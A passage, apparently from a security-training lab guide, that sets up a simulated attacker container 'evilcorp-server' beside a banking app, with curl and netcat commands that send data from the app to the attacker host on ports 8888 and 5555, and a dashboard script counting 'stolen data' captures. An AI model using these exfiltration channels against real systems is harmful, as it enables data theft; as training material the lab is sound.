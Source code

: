 ### Test Connectivity
```bash
# Test HTTP connection from banking-app to evilcorp
docker exec banking-app curl -I http://evilcorp-server:8888

# Test netcat connection
docker exec banking-app sh -c "echo 'connectivity test' | nc -w 1 evilcorp 5555"

# Test reverse DNS
docker exec banking-app nslookup evilcorp
```

## 6. Real-time Attack Monitoring Script

### Create monitoring script `monitor_attacks.sh`:
```bash
#!/bin/bash

echo "🔍 Banking Security Training - Attack Monitoring Dashboard"
echo "=========================================================="

# Function to check stolen data
check_stolen_data() {
    echo "📊 Stolen Data Summary:"
    docker exec evilcorp-server sh -c "
        echo '  HTTP captures: \$(ls -1 /app/stolen_data/http_*.txt 2>/dev/null | wc -l)'
        echo '  Netcat captures: \$(ls -1 /app/stolen_data/netcat_*.txt 2>/dev/null | wc -l)'
        echo '  Total files: \$(ls -1 /app/stolen_data/*.txt 2>/dev/null | wc -l)'
        echo '  Latest file: \$(ls -t /app/stolen_data/*.txt 2>/dev/null | head -1 | xargs basename 2>/dev/null || echo \"None\")'
    "
}

# Function to show recent activity
show_recent_activity() {
    echo "🕐 Recent Activity (last 5 minutes):"
    docker exec evilcorp-server find /app/stolen_data/ -name "*.txt" -mmin -5 -exec echo "  📄 {}" \; 2>/dev/null | head -5
}

# Function to show active connections
show_connections() {
    echo "🌐 Active Connections:"
    docker exec evilcorp-server netstat -an | grep -E "(5555|8888)" | sed 's/^/  /'
}

# Main monitoring loop
while true; do
    clear
    echo "🔍 Banking Security Training - Attack Monitoring Dashboard"
    echo "=========================================================="
    echo "📅 $(date)"
    echo ""
    
    check_stolen_data
    echo ""
    
    show_recent_activity
    echo ""
    
    show_connections
    echo ""
    
```